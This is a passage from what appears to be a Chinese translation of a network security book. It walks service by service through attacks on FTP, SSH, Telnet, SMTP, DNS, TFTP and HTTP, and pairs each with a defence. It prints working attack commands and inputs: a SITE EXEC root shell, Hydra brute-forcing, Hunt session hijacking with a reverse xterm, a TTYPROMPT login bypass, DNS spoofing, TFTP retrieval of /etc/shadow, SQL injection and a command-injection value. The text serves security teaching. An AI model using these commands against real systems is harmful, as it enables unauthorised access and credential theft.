如果未使用被动模式，则 `FTP` 会话会退回到“主动”模式。在这种模式下，由客户端开始在指定端口上进行监听。此时，攻击者可能在 `FTP` 服务器之前连接到客户端。根据客户端发出的下一条命令，攻击者可能会冒充合法的服务器，并可能向客户端传输修改过的文件或数据。

#### 防止连接窃取攻击

以下建议将有助于防御连接窃取攻击：

- 配置您的 `FTP` 服务器，以仅允许来自已认证客户端 IP 地址连接到其数据端口。大多数 `FTP` 服务器默认执行此操作。请注意，这可能无法防止攻击者和合法 `FTP` 用户都在同一 `NAT` 网关后面的攻击，因为它们的源 IP 地址将是相同的。
- 配置您的 `FTP` 客户端，以仅接受来自其所连接的 `FTP` 服务器的连接。

### 软件漏洞

`WU-FTPD` 是 `Unix` 和 `Linux` 上最广泛使用的 `FTP` 守护进程。不幸的是，其历史一直被漏洞所困扰，许多远程利用代码已知存在。以下是部分已知 `WU-FTPD` 漏洞列表：

- **文件通配符堆损坏漏洞** `WU-FTPD` 的“文件通配符”功能允许客户端按模式组织文件。发现某些模式会导致 `WU-FTPD` 进程中的堆损坏。此漏洞使得攻击者能够通过发送特制数据作为输入，在易受攻击的 `WU-FTPD` 服务器上执行任意命令。有关更多详细信息，请参见 [http://online.securityfocus.com/bid/3581](http://online.securityfocus.com/bid/3581)。
- **SITE EXEC 漏洞** `WU-FTPD` 的旧版本在其“`SITE EXEC`”功能中存在漏洞。这是

该漏洞允许客户端逃避其被允许执行的受限命令集。例如，如果 `FTP` 客户端向存在漏洞的 `FTP` 服务器发出以下命令，该命令将以 `root` 权限执行：

```
SITE exec /bin/sh -c /usr/bin/id
```

更多信息请参见 http://securityfocus.com/bid/2241。


# 长路径溢出漏洞
WU-FTPD 包含一个由于处理长路径名不正确而导致的缓冲区溢出漏洞。更具体地说，这是由于 WU-FTPD 在使用 `realpath()` 函数时缺乏边界检查所致，而该函数又使用了 `strcpy()` 函数。用于将字符串从内存中的一个源位置复制到另一个位置的 `strcpy()` 函数不执行边界检查，可能导致缓冲区溢出。详情请参见 http://www.eeye.com/html/Products/Retina/RTHs/FTP_Servers/630.html。

建议考虑使用 ProFTPD 替代 WU-FTPD。与 WU-FTPD 相比，ProFTPD 较少受到远程漏洞的影响。ProFTPD 可从 http://proftpd.linux.co.uk/ 获取。

## SSH (Secure Shell)：22 (TCP)

SSH 是一种用于交换数据的加密协议。它可以用于登录远程机器、远程执行命令以及传输文件。由于 SSH 内部通信是加密的，它是 telnet、rlogin 和 FTP 等远程登录解决方案的一个有价值的替代方案。

### 暴力破解
SSH 支持使用用户名和密码对进行身份验证。因此，可以通过 SSH 对账户进行暴力破解。

#### 暴力破解 SSH
可以使用 `expect` 工具编写一个简单的暴力破解脚本来暴力破解 SSH 账户，`expect` 是一个简单的程序，用于与其他交互式程序“对话”。一个这样的示例 Expect 脚本可以在 http://www.securityteam.com/tools/5QPOL2K60l.html 找到。`expect` 程序可以从 http://expect.nist.gov/ 下载。

#### 防止 SSH 暴力破解
请参见“暴力破解攻击的常见防御措施。”

### SSH 中间人攻击
SSH 容易受到同一网段中恶意用户的中间人攻击。

#### Sshmitm 和 Ettercap
可以使用 `sshmitm` 和 `Ettercap` 等工具来代理 SSH 连接，同时可以使用 `dnsspoof` 等工具来伪造对 DNS 查询的回复，从而将受害者的 SSH 客户端重定向到代理 SSH 服务器。然而，由于服务器的主机密钥发生了变化（此时显示的主机密钥将是攻击者代理 SSH 服务器的主机密钥），受害者的 SSH 客户端很可能会警告用户主机密钥已更改。不幸的是，大多数最终用户并不重视此警告，而是接受了呈现的密钥，导致此类攻击成功。

#### 防止针对 SSH 的中间人攻击
教育用户不要接受来自远程 SSH 服务器的未知主机密钥。如果可能，请将这些密钥的指纹列在内部网络资源中，以便用户在接受 SSH 会话之前可以进行验证。

### 软件漏洞
已知多个版本的 SSH 软件存在漏洞。下一段记录了最近的一个漏洞。

#### Open SSH 挑战-响应缓冲区溢出
发现 OpenSSH 的各种实现易受针对其挑战-响应机制的缓冲区溢出攻击。缓冲区溢出状况存在于编译时支持 SKEY 或 BSD_AUTH 身份验证的 OpenSSH 服务器中。

此外，在 OpenSSH 的挑战-响应机制中发现了另一个漏洞。此漏洞是由于 OpenSSH 在处理挑战-响应身份验证期间接收到的响应时处理不当造成的。使用支持交互式键盘身份验证的 PAM 模块的系统容易受到此漏洞的影响。因此，开启以下选项的系统受到影响：

```
PAMAuthenticationViaKbdInt
ChallengeResponseAuthentication
```

更多信息请参见 http://online.securityfocus.com/bid/5093。

## Telnet：23 (TCP)

Telnet 是一种用于登录远程机器的明文协议。

### 暴力破解
可以使用 Hydra 等许多公开可用的工具对 Telnet 账户进行暴力破解。

#### 暴力破解 Telnet
可以使用 Hydra 对 Telnet 进行暴力破解：

```
[bash]$ hydra -L usernames.txt -P passwords.txt \
	telnet somecompanyasanexample.com telnet
Hydra v2.2 (c) 2002 by van Hauser / THC
use allowed only for legal purposes.
Hydra is starting! [parallel tasks: 4, login tries: 9 (1:3/p:3)]
[23][telnet] login: jill   password: 110v3jack
Hydra finished.
```

#### 防止 Telnet 暴力破解
请参见“暴力破解攻击的常见防御措施。”

### TCP 劫持
在 telnet 用户成功登录后，同一网段上的另一个用户可以使用 Hunt 等 TCP 劫持工具来劫持该会话。

#### 劫持 Telnet 会话
假设 IP 地址为 192.168.1.1 的主机上有一名为“恶意用户”，他与 192.168.1.2 上的用户位于同一网段。如果 192.168.1.2 上的用户已建立到 10.0.0.1 的 telnet 连接，那么 192.168.1.1 上的恶意用户可以使用 Hunt 对其进行劫持：

```
[bash]$ hunt -l eth0
/*
*       hunt 1.5
*       multipurpose connection intruder / sniffer for Linux
*       (c) 1998-2000 by kra
*/
starting hunt
--- Main Menu --- rcvkpt 0, free/aloc 63/64 -----
l/w/r) list/watch/reset connections
u)		host up testst
a)		arp/simple hijack (avoids ack storm if arp used)
s)		simple hijack
d)		daemons rst/arp/sniff/mac
o)		options
x)		exit
*> g
0) 192.168.1.2 [52323]		--> 10.0.0.1 [23]
```


choose conn> 0

dump connection y/n [n]> n

Enter the command string you wish executed or [cr]> whoami

whoami

jack

Enter the command string you wish executed or [cr]>

在此案例中，恶意用户在劫持受害者的 telnet 会话后执行了 `whoami` 命令。如图所示，该命令执行成功，其输出显示了受害者的用户名“jack”。同样，恶意用户也可以发出诸如

```
xterm -display 192.168.1.1:0 &
```

这样的命令，这将把由受害者用户“jack”拥有的 xterm shell 发送回恶意用户。当然，恶意用户必须在他或她自己的主机上执行诸如

```
xhost +192.168.1.2
```

这样的命令，以便允许在受害者主机上执行的 xterm 实例显示在他或她的 X 服务器上。

#### 使用 SSH
禁用 telnet，并改用 SSH（版本 2）等安全替代方案。

### 嗅探
由于 telnet 是一种明文协议，因此可以嗅探通过网络发送的用户名和密码。许多工具可促进捕获 telnet 数据和密码。

#### 嗅探 Telnet 身份验证
可以使用 Ettercap 嗅探在 telnet 身份验证期间通过网络传输的用户名和密码：

```
[bash]# ettercap -m -C -N

ettercap 0.6.7 (c) 2002 ALoR & NaGA

Your IP: 10.0.0.102 with MAC: 01:11:04:03:6A:A3 on Iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

Press 'h' for help...

Sniffing (MAC based): ANY <--> ANY

TCP + UDP packets... (default)

Collecting passwords...

07:04:58 10.0.0.102:4814 <--> 192.168.1.1:23 telnet

USER: john
PASS: il0vetel3t
```

#### 不要使用 Telnet
不要使用 telnet 等明文协议。考虑改用 SSH。

### 软件漏洞
telnet 守护程序的历史上涉及一些可远程利用的漏洞。下一段描述了一个可能最容易利用的漏洞。


# Solaris in.telnetd TTYPROMPT 缓冲区溢出漏洞
发现 Solaris 2.6–2.8 附带的 `/bin/login` 版本存在涉及环境变量 `TTYPROMPT` 的漏洞。为了攻击此漏洞，攻击者需要将 `TTYPROMPT` 的值设置为六个字符的字符串，并在连接后在用户名之后发送 64 个 `c` 字符和字面量 `\n`。例如，考虑一个攻击者尝试通过以用户 `bin` 身份登录来利用此漏洞：

```
[bash]$ telnet

telnet> environ define TTYPROMPT abcdef

[blank]...

telnet> o telnet.somecompanyasanexample.com
Trying 192.168.1.10...
Connected to telnet.somecompanyasanexample.com.
Escape character is '^]'.

SunOS 5.6
bin c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c
Last login: Thu Dec 10 12:19:10 from 10.0.0.2
```


## SMTP（简单邮件传输协议）：25（TCP）
SMTP 是一种用于在互联网上传递电子邮件消息的协议。

**嗅探** 由于 SMTP 是一种明文协议，因此可以捕获通过网络传输的 SMTP 数据。

### 嗅探 SMTP 流量
`mailsnarf` 程序是 Dsniff 工具包的一部分，可用于捕获网络中的 SMTP 数据。由于 `mailsnarf` 会监控网络上的 SMTP 数据，因此它必须在与受害者位于同一网络段的机器上运行。

```bash
[bash]$ mailsnarf
Kernel filter, protocol ALL, raw packet socket
mailsnarf: listening on eth0 []
From Joe@example.com Tue Feb 4 15:24:57 2003
Received: from localhost (Joe@localhost)
        by mail.somecompany.example.com (8.11.6/8.11.6) with
        ESMTP id H1h200u23205
        for <smith@examplecompany.org>; Tue, 4 Feb 2003 15:24:56 -0800
Date: Tue, 4 Feb 2003 15:24:56 -0800 (PST)
From: Joe User <joe@example.com>
X-X-Sender: joe@localhost.localdomain
To: smith@examplecompany.org.com
Subject: RE: Your email
Message-ID: Pine.LNX.4.44.0302041524510.23193-100000@localhost.localdomain
MIME-Version: 1.0
Content-Type: TEXT/PLAIN; charset=US-ASCII

Hello,

Thanks for your email. The password for your PGP account is 3$&d!x3z.
Yes I know it is hard to remember, but its for your own security.

Thanks,
Joe.
```

Gnu Privacy Guard 工具集可用于促进电子邮件的加密。鼓励用户加密包含敏感信息的电子邮件。请访问 http://www.gnupg.org/ 以获取有关 Gnu Privacy Guard 的更多信息。

**软件漏洞** Sendmail 是互联网上最常用的 MTA（邮件传输代理）。已知 Sendmail 曾受到许多可远程利用的漏洞影响。

- **Sendmail 头部处理缓冲区溢出** 该漏洞是由 Sendmail 头部解析组件中的缓冲区溢出条件引起的。具体来说，Sendmail 的 `crackaddr` (`char *addr`) 函数未能正确处理包含邮件头部中 “From” 地址字段的字符串中的 `<` 和 `>` 字符。更多详情，请参阅 http://www.cert.org/advisories/CA-2003-07.html 和 http://securityfocus.com/bid/6991。
- **Sendmail MIME 漏洞** Sendmail 8.8.3 版本引入了一个新漏洞，该漏洞是由在处理电子邮件消息时执行 MIME 转换时进行的不当边界检查引起的。可以通过发送精心构造的消息来利用此漏洞，这些消息会导致 Sendmail 进程覆盖其内部堆栈空间，从而在 Sendmail 服务器上运行任意命令。有关更多信息，请访问 http://online.securityfocus.com/bid/685。
- **Sendmail HELO 缓冲区溢出** 旧版本 Sendmail 中的缓冲区溢出导致其在将长字符串作为 HELO 命令的参数发送时崩溃。可以远程利用此漏洞在 Sendmail 服务器上运行任意命令。更多详细信息可在 http://www.eeye.com/html/Products/Refina/RTHs/Mail_Servers/141.html 找到。
- **Sendmail DNS 映射 TXT 记录缓冲区溢出漏洞** 在 Sendmail 代码的 DNS 处理中发现了一个缓冲区溢出漏洞。该漏洞是由对从名称服务器返回的数据进行的不当边界检查引起的。由于此漏洞会导致缓冲区溢出，因此可以通过让恶意名称服务器返回任意长度的响应来利用此漏洞，从而在 Sendmail 服务器上运行命令。更多信息可在 http://online.securityfocus.com/bid/5122 上找到。

## DNS（域名系统）：53（TCP 和 UDP）
DNS 是一种用于在域名和 IP 地址之间进行转换的协议。

- **欺骗** 与 TCP 不同，UDP 不是面向连接的协议。这使得欺骗 UDP 流量变得容易。当 DNS 客户端查询 DNS 服务器时，DNS 服务器通过发送从端口 53 发出的 UDP 数据包来响应查询。然而，位于同一网络段或位于通往 DNS 服务器路径上的恶意用户可以发送一个响应回客户端，其中源 IP 地址为 DNS 服务器的地址。如果恶意用户的响应先于真实 DNS 服务器的响应被客户端接收，则恶意响应将被接受。由于恶意用户可以构造欺骗性的 DNS 响应返回给客户端，他或她可能会诱骗客户端连接到他或她的主机，而不是预期的目标。

### 欺骗 DNS 响应
`dnsspoof` 程序随 Dsniff 一起分发，是一个促进伪造 DNS 查询的工具。例如，假设攻击者已获得 IP 地址为 10.0.0.1 的网络网关的控制权。假设 `somecompanyasexample.com` 的真实 IP 地址是 10.1.1.2。攻击者现在可以运行 `dnsspoof` 并使其使用 192.168.1.1（他或她机器的 IP 地址）响应所有针对 `somecompanyasexample.com` 的 DNS 查询。

```bash
[gateway]$ dnsspoof -i eth0 -f /etc/dsniff.txt
Kernel filter: protocol ALL, raw packet socket
dnsspoof: listening on eth1 [udp dst port 53 and not src 10.0.0.1]
```

攻击者需要确保 `/etc/dsniff.txt` 的内容包含以下内容：

```text
192.168.1.1 somecompanyasexample.com
```

现在，在试图识别入侵者的过程中，如果受害者对 `somecompanyasexample.com` 执行 DNS 查询，他或她将被指向黑客机器的 IP 地址 192.168.1.1（而不是 10.1.1.2）：

```bash
[bash]$ host somecompanyasexample.com
somecompanyasexample.com has address 192.168.1.1
```

### DNSSEC
考虑使用 DNSSEC（DNS 安全），这是 DNS 的一个扩展，提供端到端的真实性。有关 DNSSEC 的更多信息，请访问 http://www.dnssec.net。

**软件漏洞** BIND（Berkley Internet Name Domain）是互联网上使用最广泛的 DNS 服务器。下一段记录了一个众所周知的 BIND 漏洞。


### BIND NXT 溢出和 DOS 漏洞
该漏洞是由 BIND 在处理 NXT 记录的输入验证方面失败引起的。可以通过强制易受攻击的 DNS 服务器获取恶意构造的 NXT 记录来远程利用此漏洞。在位于 `http://online.securityfocus.com/bid/788` 的 BIND 通告中，还公布了其他拒绝服务（DOS）漏洞。

考虑使用 `djbdns` 作为 BIND 的替代品。`djbdns` 程序可在 `http://cr.yp.to/djbdns.html` 获取。

## TFTP（简单文件传输协议）：69（UDP）

TFTP 是一种基于 UDP 的协议，用于传输文件。它缺乏大多数功能，如身份验证和目录列表。TFTP 仅支持与远程服务器之间的文件读取和写入。

**嗅探** 由于 TFTP 是一种明文协议，因此可以嗅探正在传输的数据。

### 嗅探 TFTP 数据

假设一个用户正在从远程主机 TFTP 传输 `/etc/passwd` 文件。与用户位于同一 `网段` 的恶意用户可以通过运行配置为显示 UDP 流量的 Ethercap 来嗅探受害者的数据：

```bash
[shell]# ethercap -N -m -t udp

ethercap 0.6.7 (c) 2002 LOR & NAGa

Your IP: 192.168.1.1 with MAC: 00:01:1E:3A:4B:36 on iface: eth0
Loading plugins... Done.
Resolving 1 hostnames...

* [==================================================] 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <-> ANY
UDP packets only...

22:49:55  192.168.1.1:33569  -->  10.0.0.1:69  proto: U
  ..hello./etc/passwd.

22:23:54  10.0.0.1:2563  -->  192.168.1.1:33569  proto: U
  ....root:x:0:0:root:/root:/bin/bash.
  bin:x:1:1:bin:/bin:
  daemon:x:2:2:daemon:/sbin:
  adm:x:3:4:adm:/var/adm:
  lp:x:4:7:lp:/var/spool/lpd:
  sync:x:5:0:sync:/sbin:/bin/sync.
  shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown.
  halt:x:7:0:halt:/sbin:/sbin/halt:
  mail:x:8:12:mail:/var/spool/mail:
  news:x:9:13:news:/var/spool/news:
  uucp:x:10:14:uucp:/var/spool/uucp:
  operator:x:11:0:operator:/root:
  games:x:12:100:games:/usr/games:
  gopher:x:13:30:gopher:/usr/lib/gopher-data:
  ftp:x:14:50:FTP User:/home/ftp:
```

### 使用安全协议

不要使用 TFTP 等明文协议。考虑使用 HTTPS 或 SSH 执行安全文件传输。

### TFTP 配置错误

TFTP 服务器经常配置错误，以至于提供 `/`（根）目录内的文件。这样的配置可能允许远程用户获取 `/etc/passwd` 等文件。

### 获取系统关键文件

如果远程 TFTP 服务器配置错误，提供 `/`（根）目录内的文件，可以使用以下 TFTP 命令尝试获取 `/etc/shadow` 和 `/etc/passwd` 等文件：

```bash
[bash]$ tftp 10.0.0.1
tftp> get /etc/shadow
```

### 设置 TFTP 根目录

大多数最新的 TFTP 服务器默认配置为仅提供 `/tftpboot` 目录内的文件。可以使用 `-s` 开关设置或更改此目录。有关详细信息，请参阅 `man tftpfd`。

## HTTP（超文本传输协议）：80（TCP）

HTTP 是一种无状态协议，用于分发布种超媒体。它最常用于提供万维网（WWW）内容。

> 手动检查所有可能的 HTTP 配置错误和漏洞是不可能的。自动化工具（如可从 `http://www.cirt.net/code/nikto.shtml` 获取的 Nikto）在评估 Web 服务器和应用程序方面表现出色，应使用它们来检查配置错误和漏洞。

**暴力破解** 可以使用 Hydra 等工具暴力破解 HTTP 认证。

### 暴力破解 HTTP 认证

Hydra 是一个支持 HTTP 的暴力破解工具，可用于暴力破解受密码保护的 HTTP 资源。以下是使用 Hydra 暴力破解 HTTP 认证的示例：

```
hydra -L usernames.txt -P passwords.txt
www.somecompanyasanexample.com http
```

### 防止 HTTP 暴力破解

请参见“针对暴力破解攻击的通用防御措施。”

**嗅探** 由于 HTTP 是明文协议，网络段上的恶意用户可以监视其他用户的 HTTP 流量。

### 嗅探 URL

与 Dsniff 一起分发的 `urlsnarf` 程序可用于嗅探用户通过网络发送的 HTTP 请求：

```
[bash]$ urlsnarf
Kernel filter, protocol ALL, raw packet socket
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
10.0.0.1 - - [19/Feb/2003:21:50:16 -0800] "GET http://www.mozilla.org/ HTTP/1.1" - - "*" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212"
10.0.0.1 - - [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/ HTTP/1.1" - - "*" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212"
10.0.0.1 - - [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/images/bg.gif HTTP/1.1" - - "http://cirt.net" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212"
10.0.0.1 - - [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/images/cirt_headline.gif HTTP/1.1" - - "http://cirt.net/*" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212"
10.0.0.1 - - [19/Feb/2003:21:50:42 -0800] "GET http://cirt.net/images/pix.gif HTTP/1.1" - - "http://cirt.net/*" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.3a) Gecko/20021212"
```

与 Dsniff 一起分发的 `webspy` 程序是另一个出色的 HTTP 嗅探工具。一旦它在网络上检测到 HTTP 请求，就会将其发送到正在运行的 Netscape 进程。这使得网络上的恶意用户能够实时监视受害者的 HTTP 会话。

### 嗅探 HTTP 数据

Ettercap 可用于嗅探通过网络发送的 HTTP 流量：

```
bash
etercap -t tcp -N -B ANY:80
```


```
etercap 0.6.7 (c) 2002 ALoR & NgAc
Your IP: 10.0.0.1 with MAC: 00:01:01:13:4A:B2 on Iface: eth0
Loading plugins... Done.
Resolving 1 hostnames...
* |==============================================>| 100.00 %
Press 'h' for help...
Sniffing (IP based): ANY:80 <--> ANY:0
TCP packets only...
22:15:33 10.0.0.1:37725 --> 192.168.1.1:80 proto: T
GET / HTTP/1.0.
Host: mozilla.org
Accept: text/html, text/plain, application/vnd.sun.xml.writer, application/vnd.sun.xml.writer.global, application/vnd.stardivision.writer, application/vnd.stardivision.writer-global, application/x-starwriter, application/vnd.sun.xml.writer.template, application/vnd.sun.xml.calc, application/vnd.stardivision.calc, application/x-starcalc, application/vnd.sun.xml.calc.template, application/vnd.sun.xml.impress, application/vnd.stardivision.impress, application/x-starimpress, application/vnd.stardivision.impress-packed, Accept: application/x-starimpress, application/
vnd.sun.xml.impress.template, application/vnd.sun.xml.draw, application/vnd.stardivision.draw, application/x-stardraw, application/vnd.sun.xml.draw.template, application/vnd.sun.xml.math. Accept: application/vnd.stardivision.math, application/x-starmath, audio/mod, image/*, video/mpeg, video/*, application/pgp, application/pdf, application/postscript, message/partial, message/external-body, x-bez, application/andrew-inset, text/richtext. Accept: text/enriched, x-sun-attachtext, audio-file, poster-xml, text, default, mail-file, sun-deskset-message, application/x-metamail-patch, application/meword, audio/x-pn-realaudio, audio/vnd.rn-realaudio, application/emil, text/vnd.rn-realtext. Accept: application/x-shockwave-flash2-preview, application/sdp, application/x-sdp, application/vnd.rn-realmedia, audio/wav, audio/x-wav, audio/x-pn-wav, audio/x-pn-windows-ac
```

```
22:15:33  10.0.0.1:37725 --> 192.168.1.1:80  proto: T
m, audio/basic, audio/x-pn-au, audio/aiff, audio/x-aiff, audio/x-pn-aiff.
Accept: text/sgml, */*; q=0.01.
Accept-Encoding: gzip, q=compress.
Accept-Language: en.
User-Agent: Lynx/2.8.5dev.7 libwww-FM/2.14 SSL-MM/1.4.1 OpenSSL/0.9.6b
```

```
22:15:33  192.168.1.1:80 --> 10.0.0.1:37725  proto: T

HTTP/1.1 200 OK.
Date: Thu, 20 Feb 2003 06:21:30 GMT.
Content-Type: text/html.
Last-modified: Wed, 12 Feb 2003 13:13:05 GMT.
Content-length: 17831.
Accept-ranges: bytes.
Connection: close.
.
```

```
22:15:33  192.168.1.1:80 --> 10.0.0.1:37725  proto: T

<HTML>
<TITLE>Welcome to somecompanyasanexample.com's Web-Site:</TITLE>
</HEAD>
<BODY>
<H1>Welcome!</H1>
</BODY>
</HTML>
```

# 远程黑客攻击

## 嗅探 HTTP 认证

受限的 HTTP 位置需要身份验证。由于 HTTP 是明文协议，这些信息可以被 `Ettercap` 嗅探到：

```
bash
$ ettercap -m -C -N

ettercap 0.6.7 (c) 2002 ALoR & NaGA

Your IP: 192.168.1.1 with MAC: 00:00:02:13:C1:13 on iface: eth0
Loading plugins... Done.
Resolving 1 hostnames...
* [========================================> ] 100.00 %

Press 'h' for help...

Sniffing (MAC based): ANY <--> ANY

TCP + UDP packets... (default)

Collecting passwords...

23:54:24 192.168.1.1:36304 <--> 10.0.0.1:80 http
USER: root
PASS: myApach3B0X!@#
http://10.0.0.1/intranet/private/administration
```

## 使用 HTTPS

在传输关键和私人数据时，请使用 `HTTPS` 而不是 `HTTP`。

`HTTP` 配置错误 通常，Web 服务器会被错误配置，或者在生产网络中使用默认配置。接下来的段落描述了一些常被利用的配置错误。

### 自动索引

当自动索引开启时，如果不存在索引文件（如 `index.html`），Web 服务器将显示目录的内容。

通常，Web 内容作者会错误地将包含敏感信息的文件放置在 Web 根目录中，如果目录内容被显示，未经身份验证的用户可以轻易查看这些文件。

### 关闭索引

`Apache` 用户可以在 `httpd.conf` 中使用 `IndexIgnore` 指令来指示服务器关闭索引。

### 获取源代码、配置、统计信息和密码资源

许多 HTTP 服务器被错误配置为提供关键文件。以下是一些示例：

- `CGI` 应用程序的源代码可能包含数据库的用户名和密码。许多 Web 应用程序使用具有 `.inc` 或 `.conf` 等后缀的配置。这些文件可能包含系统和密码信息，且常被配置错误的 Web 服务器提供出来。
- Web 服务器统计程序将结果输出到 `/stats` 等目录，这些目录通常位于 Web 根目录内。
- `Apache` 允许用户通过在目录中放置名为 `.htaccess` 的文件来对目录进行密码保护。`.htaccess` 文件包含关于密码文件位置的信息（通常称为 `.htpasswd`），该文件包含允许账户的密码哈希值。通常，`Apache` 未配置为限制提供 `.htaccess` 和 `.htpasswd` 文件。一旦入侵者获得 `.htpasswd` 文件的访问权限，就可以使用 `john` 等暴力破解工具进行破解。

### 不提供关键资源


配置 Web 服务器以不提供敏感文件。如果使用 Apache，请编辑 `httpd.conf` 文件以拒绝提供具有特定后缀的文件。例如，以下指令禁止提供以 `.*` 开头的文件：

```text
<Files ~ "^\.ht">
    Order allow,deny
    Deny from all
</Files>
```

> `AccessFileName` 指令可用于 `httpd.conf`，以指定 `.htaccess` 以外的其他名称。如果这样做，务必指示 Apache 不发布对应的访问文件。

# Web 应用程序漏洞

本书无法提及所有可能的 Web 应用程序漏洞。然而，随后的攻击提供了最常见漏洞的良好示例。

## 利用输入验证不当

HTML 表单提交可将值输入到 Web 应用程序中。在这些值被应用程序使用之前，应检查它们是否包含非法字符。设计不良的 Web 应用程序未能检查提交的参数，使其容易受到输入验证攻击。

考虑在 PHPNuke（一种基于自动化的 Web 新闻应用）中发现的漏洞。PHPNuke 未能清理用于构建 SQL 查询的用户输入。这使得恶意用户能够在 PHPNuke 应用程序使用的数据库上执行未授权的查询。有关此问题的更多信息可在 `http://www.securityfocus.com/bid/6887` 找到。

利用 Web 应用程序中的输入验证漏洞执行未授权 SQL 查询的行为称为 SQL 注入。考虑以下在 Web 应用程序中执行的 SQL 代码：

```sql
SELECT SSN FROM users WHERE username='$INPUT[id]';
```

`id` 参数通过用户提交的 HTML 表单传递给应用程序。如果没有进行输入验证，恶意用户可能会提交一个 `id` 值等于以下内容的 HTML 表单：

```sql
blah' OR 'x'='x
```

这会导致原始 SQL 查询在数据库上执行以下内容：

```sql
SELECT SSN FROM users WHERE username='blah' OR 'x'='x';
```

此查询将返回 `users` 表中所有账户的 SSN 值！许多设计不良的 Web 应用程序未能对传递给 `system()` 函数调用的参数执行输入验证。大多数编程语言都包含 `system()` 函数调用以执行外部程序：

```c
system("/bin/echo $i");
```

如果恶意用户输入诸如 `cat /etc/passwd` 的值作为 `$i` 的值，则前面的系统调用将在 Web 服务器上执行以下操作：

```bash
/bin/echo cat /etc/passwd
```

从而导致 `/etc/passwd` 文件被显示给恶意用户。

## 防止输入验证漏洞

审计 Web 应用程序，确保对所有用户输入参数执行输入验证。需要留意的一些字符包括：

`; . / \ @ & | % ~ - < > " $ ( ) { } * !`

## 会话劫持

由于 HTTP 不是面向状态的协议，会话管理必须由 Web 应用程序提供。在大多数情况下，会话通过使用 cookie 来维持。Cookie 是由 Web 服务器请求存储在其硬盘上的用户终端上的信息片段。

由于 cookie 存储在最终用户的磁盘上，因此它不能完全且不应被完全信任。例如，设计不良的应用程序可能会在用户 `joe` 成功认证后，请求存储以下 cookie 值：

```text
lang=en-us; user=joe; time=10:10 EST;
```

如果 Web 应用程序仅依赖此 cookie 值，则任何用户都可以编辑其 Web 浏览器的 cookie 文件（Mozilla 将其 cookie 存储为用户 `.mozilla` 目录中的 `cookie.txt`），并手动插入前面的 cookie 值，使其被提供给 Web 服务器。此外，恶意用户可以指示其 Web 浏览器提供一个包含用户字段值设置为特权用户名称（如 `administrator`）的 cookie。

Cookies 并非维持会话的唯一方式。Web 应用程序可以通过在 URL 中嵌入会话信息来维持状态：

`http://www.somecompanyasanexample.com/authenticated.cgi?user=john&sessionId=12345678.`




## 防止会话劫持

以下步骤有助于防止许多类型的会话劫持技术：

- 允许随机会话 ID 用于成功认证的用户。
- 考虑在 cookie 中存储加密信息，使其对终端用户不可操作。
- 使用 SSL 传递所有 cookie 信息。

## 隐藏 HTML 元素

隐藏的 HTML 元素是包含在 Web 表单中的静态值。这些值不会显示给最终用户。以下 HTML 代码可用于设置一个隐藏元素：

```html
<INPUT NAME="shippingcharges" TYPE=HIDDEN VALUE="5.25">
```

设计不良的 Web 应用程序信任隐藏的 HTML 标签，以便在最终用户会话期间传递信息。在这种情况下，恶意用户可以下载 HTML 表单并将上述 HTML 代码更改为：

```html
<INPUT NAME="shippingcharges" TYPE=HIDDEN VALUE="-99">
```

提交修改后的表单后，值为 −99 的 `shippingcharges` 字段将被传递给存在漏洞的 Web 应用程序。如果 Web 应用程序盲目接受此值，并且目标是一个电子商务网站，则用户可能会在信用卡上获得入账！

## 不要信任隐藏的 HTML 元素

Web 应用程序开发人员不应信任隐藏 HTML 元素的值。进行 Web 应用程序审查以确保不信任隐藏 HTML 元素值是一个好主意。

## 源代码注释

在 Web 应用程序开发阶段，程序员通常会在 CGI 或 HTML 源代码中放置注释是常见的。这些注释有助于开发人员与同行程序员分享细节。源代码注释可能包含关键信息，例如数据库服务器的密码。有时，当 Web 应用程序投入生产时，此类注释会被忽略：

```html
<!--
NOTE: Mike, please use the following username and password
to access the local mysql server: root, drdr3emenem
Comment placed by John at 12:15am, 2/12/2003
-->
```

## 审计源代码注释

定期审计源代码注释是个好主意。使用 `grep` 和 `wget` 等工具在 Web 应用程序源代码和 HTML 代码中寻找注释。

## Web 服务器漏洞

Apache 是目前使用最广泛的 Web 服务器。多年来它一直相当安全。下面段落代表了一个近期的 Apache 漏洞。

### Apache Web 服务器块处理漏洞

发现在 Apache Web 服务器处理分块编码数据的方式中存在可远程利用的漏洞。此漏洞使得可以在 Apache 服务器上远程执行任意命令。更多详细信息可在 `http://www.cert.org/advisories/CA-2002-17.html` 找到。

## POP2 (Post Office Protocol 2)：109 (TCP)

POP2 是一种用于从邮件服务器访问电子邮件的协议。

## 暴力破解

由于 POP2 认证使用用户名和密码对完成，因此该协议容易受到暴力破解攻击。

## 嗅探

由于 POP2 是一种明文协议，因此可以嗅探通过网络传输的 POP2 流量。

## 嗅探 POP2 流量

可以使用诸如 Ettercap 的工具来嗅探 POP2 数据。当使用 `-C` 选项时，`ettercap` 命令会自动过滤并显示通过网络传输的 POP2 用户名和密码。

## 通过 SSH 隧道传输 POP2 流量

使用 SSH 的端口转发选项安全地隧道传输 POP2 流量：

```bash
ssh -L109:127.0.0.1:109 username@pop2server.somcompanysanexamplle.com
```

## POP3 (Post Office Protocol 3)：110 (TCP)

POP3 是一种用于从邮件服务器访问电子邮件的协议。


# 暴力破解

由于 POP3 认证使用用户名和密码对完成，因此该协议容易受到暴力破解攻击。

## 暴力破解 POP3

`Hydra` 可用于暴力破解 POP3 账户：

```bash
[h]$ hydra -L usernames.txt -P passwords.txt 10.0.0.1 pop3
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal purposes.
Hydra is starting! [parallel tasks: 4, login tries: 16 (1:d/p:4)]
[110] [pop3] login: root   password: nDr4d€41550cuT3
Hydra finished.
```

## 防止 POP3 暴力破解

请参阅“针对暴力破解攻击的通用防御措施。”

## 嗅探

